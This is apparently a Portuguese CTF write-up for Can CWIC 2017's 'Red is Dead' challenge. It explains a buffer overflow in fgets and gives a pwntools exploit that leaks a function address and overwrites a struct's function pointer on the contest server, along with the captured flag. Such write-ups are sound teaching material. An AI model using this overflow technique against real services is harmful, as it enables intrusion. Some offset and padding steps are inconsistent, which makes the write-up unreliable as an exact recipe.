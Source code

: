 ```yaml
---
title:  "Red is Dead - Can CWIC CTF 2017"
date:   2017-10-14 10:47:06
categories: [write-ups]
tags: [Can CWIC CTF 2017]
---
```

Analisando a estrutura `user` nós se depara com uma variável color [8 bytes], uma variável name [8 bytes] e um ponteiro [8 bytes]
sendo uma estrutura de 24 bytes em sistemas 64 bits

``` c
struct user {
    char color[8];
    char name[8];
    void (*next)(struct user*);
};
```

linha 17 a  20 não importa para nós, vamos pular e ir para as funções `success_knight` e `success_king`.
``` c
void success_knight(struct user *user) {
    printf("Keeper: Right. Off you go.\n");
    user->next = NULL;
}

void success_king(struct user *user) {
    printf("Keeper: What? I don't know that! Auuuuuuuugh!\n");
    printf("FLAG\n");
    user->next = NULL;
}
```
temos duas funções, uma `success_knight` e uma `success_king`, essa foi fácil, a função success king é a função final ontde entrega a
flag, e a função success_knight é apenas um caminho que não vai da em nada, então descartamos ela!

vamos para proxima função `check_knight`.
``` c
void check_knight(struct user *user) {
    user->next = success_knight;
    printf("Keeper: What is your favorite color?\n");
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    if (strcmp(user->color,"red")) {
        user->next = dead;
    }
}
```
Observando a linha 36 me deparei com um overflow
``` c
char *res = fgets(user->color, sizeof(struct user), stdin);
```
Aqui ele tá usando o sizeof para pegar a quantidade de bytes da estrutura user e definir
na variável color, ou seja, o que era 8 bytes agr virou 24 bytes!, o que isso nos ajudará?
poderemos fazer um buffer overflow que nos retornará alguns vazamentos de endereços

``` c
void check_king(struct user *user) {
    user->next = success_king;
    printf("Keeper: What is the air-speed velocity of an unladen swallow?\n");
    printf("%s: What do you mean?\n", user->name);
    char *res = fgets(user->color, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
    }
}
```

``` c
void start(struct user *user) {
    printf("Keeper: Stop! What is your name?\n");
    char *res = fgets(user->name, sizeof(struct user), stdin);
    if (res == NULL) {
        user->next = NULL;
        return;
    }
    chomp(user->name);

    size_t len = strlen(user->name);
    if (len < 2) { printf("Keeper: Sorry `%s', your name is too short\n", user->name);
        user->next = NULL;
        return;
    }

    if(!strncmp(user->name, "Arthur", 6)) {
        user->next = check_king;
        printf("Arthur: It is Arthur, King of the Britons.\n");
    } else {
        user->next = check_knight;
        printf("%s: Sir %s of Camelot.\n", user->name, user->name);
    }
}
```

Bem, Nós poderia começar com o nome `Arthur` e nós iria para `check_king` nós realizaríamos a substituição do usuário seguinte, mas não havia como ir para o seguinte check!

então nós iria para `user->next = success_king;` que nos daria a flag, foi o que eu pensei, porém, not so easy!

``` c
chomp(user->color);
    user->next = success_king;
    if (strcmp(user->color,"An African or European swallow?")) {
        user->next = dead;
```

Para nós ir para o `success king` isso era impossível, pois o comprimento da string era (31) era maior do que o número de bytes para a cor (24), portanto, o strcmp sempre retornaria verdadeiro, e o próximo usuário iria para dead.

Portanto o check correto é o `check_knight`
``` c
if (strcmp(user->color,"red")) {
    user->next = dead;
}
```

Temos que burlar a cor para red, isso é fácil já que o fgets ler bytes nulos nós fazeria com`‘red\0’`, cor burlada
agora vamos ajeitar o caminho do `success_king`

Dando um objdump -t <nome do arquivo> teremos o andress das minhas duas funções `success_king` e `success_knight`

`000000000040084e g     F .text  000000000000002e              success_king`
`000000000040082a g     F .text  0000000000000024              success_knight`

Agora para calcular o deslocamento basta diminuir o andress de uma função pela outra

``` python
>>> hex (0x000000000040084e - 0x000000000040082a)
'0x25'
>>> 0x25
37
```

Temos nossa distancia de uma função para outra, `37`, então, teremos que subtrair do andress do `check_king`
tendo tudo que precisamos, é hora do solve

``` python
from pwn import *
import struct
import time

def p(x):
    return struct.pack("<q", x)

addr = 0
offset = -37

r = remote('159.203.38.169', 5683)
r.recv(1024)

print("[*] Triggering leak...")
r.send('knightAA' + '\n')
time.sleep(0.3)

print("[*] Retrieving address of check_knight...")
resp = r.recv(1024).strip()
addr = resp[8:14] + '\x00\x00'
addr = struct.unpack("<q", addr)[0]

print("[*] Calculating address of success_king...")
addr += offset

print("[*] Calling success_king...")
r.send('red\0' + '0x00' + '0x000000' + p(addr))
time.sleep(0.3)

resp = r.recv(1024)
print(resp[resp.find('FLAG'):])
r.close()
```

``` c
[+] Opening connection to 159.203.38.169 on port 5683: Done
[*] Triggering leak...
[*] Retrieving address of check_knight...
[*] Calculating address of success_king...
[*] Calling success_king...
FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}

[*] Closed connection to 159.203.38.169 port 5683
```

`FLAG{Y0uCr0ss3dTh3Br1g30fD3ath}`
